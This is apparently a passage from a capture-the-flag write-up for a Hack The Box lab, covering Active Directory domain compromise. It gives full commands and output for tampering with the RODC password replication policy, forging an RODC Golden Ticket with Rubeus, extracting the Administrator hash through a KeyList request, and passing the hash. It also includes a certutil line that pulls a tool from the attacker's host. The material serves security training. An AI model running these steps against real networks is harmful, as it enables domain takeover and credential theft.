  cn msDS-RevealedUsers msDS-NeverRevealGroup msDS-RevealOnDemandGroup
```

The output shows
- `msDS-NeverRevealGroup` contains `CN=Administrators,CN=Builtin` which blocks the Administrator account from replication despite being in RevealedUsers
- `msDS-RevealOnDemandGroup` only has the generic `Allowed RODC Password Replication Group`



add Administrator directly to `msDS-RevealOnDemandGroup` and clear `msDS-NeverRevealGroup`. From our evil-winrm session as `l.wilson_adm` (who has `WriteAccountRestrictions` on RODC01).

```powershell
Set-ADObject -Identity "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" `
  -Add @{'msDS-RevealOnDemandGroup'='CN=Administrator,CN=Users,DC=garfield,DC=htb'}

Set-ADObject -Identity "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" `
  -Clear "msDS-NeverRevealGroup"
```

Verify with ldapsearch again

```bash
ldapsearch -x -H ldap://$target \
  -D "j.arbuckle@garfield.htb" -w 'Th1sD4mnC4t!@1978' \
  -b "DC=garfield,DC=htb" "(objectClass=computer)" \
  cn msDS-RevealedUsers msDS-NeverRevealGroup msDS-RevealOnDemandGroup
```

DC01 will now be willing to give us the real Administrator TGT when we present a valid RODC Golden Ticket for that account.



### Rubeus Version Matter v2.3.3 Required

Before the final attack, there's a tool versioning issue worth calling out. The RODC Golden Ticket attack in Rubeus requires two specific flags

- `golden /rodcNumber` tells Rubeus to sign the TGT with the RODC's krbtgt key (identified by its RID number)
- `asktgs /keyList` triggers the Kerberos KeyList request that extracts the real password hash from DC01

Both of these were added in **Rubeus v2.3.3**. Running Rubeus v1.6.4 (what i had locally first) produces no errors but silently ignores these flags, making the attack impossible. i had to download v2.3.3 directly from SharpCollection

```bash
wget "https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_Any/Rubeus.exe" \
  -O /tmp/Rubeus3.exe --no-check-certificate
```

Upload to DC01

```powershell
certutil -urlcache -f http://10.10.14.160:8000/Rubeus3.exe C:\Users\l.wilson_adm\Documents\Rubeus3.exe
```

Confirm the version

```powershell
.\Rubeus3.exe | Select-String "v\d+\.\d+\.\d+"
  v2.3.3
```

guud. (do it on "l.wilson_adm" evil-winrm shell)

### RODC Golden Ticket + Kerberos KeyList Attack

This is the final sequence. Two Rubeus commands, run from the evil-winrm shell on DC01.

**Step 1 Forge the RODC Golden Ticket**

```powershell
.\Rubeus3.exe golden /rodcNumber:8245 `
  /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 `
  /user:Administrator /id:500 `
  /domain:garfield.htb `
  /sid:S-1-5-21-2502726253-3859040611-225969357 `
  /nowrap
```

```
[*] Action: Build TGT
[*] Building PAC
[*] Domain     : GARFIELD.HTB (GARFIELD)
[*] SID        : S-1-5-21-2502726253-3859040611-225969357
[*] UserId     : 500
[*] Groups     : 520,512,513,519,518
[*] ServiceKey : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] Service    : krbtgt
[*] Target     : garfield.htb
[*] Forged a TGT for 'Administrator@garfield.htb'
[*] base64(ticket.kirbi):
    doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB5QM2e4Pek73sB+yrje/V79ifiH37OadGhpXDiIDAsLdBIXAjfsZX5s6eo0uzNemFfHDumUIP4cuYlL4MPSdhZcNWdCJV9KnGKzRMxBNbyHd6h7pk4rHcEEQmGKWPQV9XaOy5BU06Urml0iC<SNIPPED>
```



This TGT is signed with `krbtgt_8245` the RODC's key. It looks legitimate to DC01, which trusts RODC01's signatures.

**Step 2 KeyList attack to extract the real NT hash**

```powershell
.\Rubeus3.exe asktgs /keyList `
  /service:krbtgt/garfield.htb `
  /dc:DC01.garfield.htb `
  /ticket:<base64_from_step 1> `
  /nowrap
```

```
[*] Action: Ask TGS
[*] Building KeyList TGS-REQ request for: 'Administrator'
[*] Using domain controller: DC01.garfield.htb
[+] TGS request successful!

  ServiceName    : krbtgt/GARFIELD.HTB
  UserName       : Administrator (NT_PRINCIPAL)
  StartTime      : 10/29/2026 3:01:08 AM
  KeyType        : aes256_cts_hmac_sha1
  Password Hash  : EE238F6DEBC752010428F20875B092D5
```



DC01 accepted our forged RODC TGT, validated it against the password replication policy (which we already fixed), and handed back the Administrator's NT hash via the KeyList response: `EE238F6DEBC752010428F20875B092D5`.



---

## Root

We have the Administrator NT hash. Sync the clock one more time and pass-the-hash with evil-winrm

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u 10.129.244.207

evil-winrm -i 10.129.244.207 \
  -u Administrator \
  -H EE238F6DEBC752010428F20875B092D5
```

```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
6b3f08f2ac26d22eeREDACTED89070f
```

Domain compromised.



---

## Lessons Learned

**SYSVOL is always worth reading.** The `SeBatchLogonRight` entry in `GptTmpl.inf` is what led directly to `l.wilson`. Group Policy templates contain a surprising amount of recon information user-account mappings, privilege assignments, configured scripts all readable by any domain user.

**scriptPath abuse is underrated.** If a low-privileged user has `scriptPath WRITE` over another account, that's a clean and reliable persistence/lateral movement path with no need to interact with any service or process directly. The logon script runs automatically on the next authentication.

**RODC is not a shortcut to DCSync.** RODCs hold only a partial, read-only replica. You cannot DCSync from an RODC, and you cannot DCSync *to* DC01 using credentials that only have rights on the RODC. The correct path is the Golden Ticket + KeyList route.

**RODC password replication policy can be modified.** If you have `WriteAccountRestrictions` on the RODC object, you can add any account to `msDS-RevealOnDemandGroup` and clear `msDS-NeverRevealGroup`. This removes the access control that's supposed to limit which passwords the RODC stores.

**RODC Golden Ticket requires the right Rubeus version.** `/rodcNumber` in `golden` and `/keyList` in `asktgs` were both added in Rubeus v2.3.3. Running an older binary silently fails. Always check the version before troubleshooting why the attack isn't producing output.

**RODC rejects RC4 tickets.** When using S4U2Proxy to get tickets for RODC01, default impacket behavior generates RC4-encrypted tickets (from the plaintext password). RODC rejects these with `STATUS_MORE_PROCESSING_REQUIRED`. The fix is to derive the AES256 session key manually and pass it with `-aesKey`.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service enumeration |
| **nxc (NetExec)** | SMB enumeration, spider_plus module, WinRM validation |
| **bloodyad** | BloodHound collection, LDAP attribute writes, group membership |
| **BloodHound CE** | Active Directory attack path visualization |
| **smbclient** | Upload malicious bat to SYSVOL |
| **nc (netcat)** | Reverse shell listener |
| **evil-winrm** | WinRM shell (password & pass-the-hash) |
| **impacket-addcomputer** | Add fake computer account to domain |
| **impacket-rbcd** | Configure RBCD on RODC01$ |
| **impacket-getST** | S4U2Proxy ticket request (with AES key) |
| **impacket-psexec** | SYSTEM shell on RODC01 via proxychains |
| **chisel** | Reverse SOCKS tunnel through DC01 to reach 192.168.100.0/24 |
| **proxychains4** | Route tool traffic through chisel SOCKS tunnel |
| **mimikatz** | Dump krbtgt_8245 keys from RODC01 LSASS |
| **Rubeus v2.3.3** | RODC Golden Ticket forge + Kerberos KeyList attack |
| **ldapsearch** | Query/verify RODC password replication policy attributes |

**References:**
- [ADSecurity Attacking Read-Only Domain Controllers](https://adsecurity.org/?p=3592)
- [The Hacker Recipes DACL Rights on RODC Object](https://www.thehacker.recipes/ad/movement/dacl/rights-on-rodc-object)
- [SharpCollection Rubeus v2.3.3](https://github.com/Flangvik/SharpCollection)
- [Impacket](https://github.com/fortra/impacket)